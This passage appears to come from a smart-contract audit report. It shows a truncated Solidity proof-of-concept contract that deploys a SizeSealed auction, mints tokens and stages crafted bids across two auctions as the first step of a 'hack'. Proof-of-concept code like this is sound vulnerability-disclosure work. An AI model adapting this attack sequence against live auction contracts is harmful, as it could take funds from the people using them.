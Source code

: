 ```solidity=
contract PoC
{
    SizeSealed sizeSealed;
    MintableERC20 token1;
    MintableERC20 token2;
    ExternalBidder externalBidder;

    uint256 hackStartTimestamp;

    uint256 firstAuctionId;
    uint256 secondAuctionId;

    uint256 constant privateKey = uint256(0xc0de1234); 

    constructor() {
        sizeSealed = new SizeSealed();
        token1 = new MintableERC20();
        token2 = new MintableERC20();
        externalBidder = new ExternalBidder();
    }

    // First transaction
    function hackStart() external returns (uint256) {
        require(hackStartTimestamp == 0);
        hackStartTimestamp = block.timestamp;

        {
            token1.mint(address(this), 123);
            token1.approve(address(sizeSealed), 123);
            firstAuctionId = createAuction(token1, token2, 123);
            require(firstAuctionId == 1);

            uint256 quoteAmount = 1;
            uint256 baseAmount = 1;
            token2.mint(address(this), quoteAmount);
            token2.transfer(address(externalBidder), quoteAmount);
            uint256 bidId = externalBidder.createBid(
                token2,
                sizeSealed,
                firstAuctionId,
                uint128(quoteAmount),
                privateKey,
                bytes32(baseAmount << 128)
            );
            require(bidId == 0);
        }

        {
            token1.mint(address(this), 321);
            token1.approve(address(sizeSealed), 321);
            secondAuctionId = createAuction(token1, token2, 321);
            require(secondAuctionId == 2);

            uint256 quoteAmount = 1;
            uint256 baseAmount = 0;
            token2.mint(address(this), quoteAmount);
            token2.transfer(address(externalBidder), quoteAmount);
            uint256 bidId = externalBidder.createBid(
                token2,
                sizeSealed,
                secondAuctionId,
                uint128(quoteAmount),
                privateKey,
```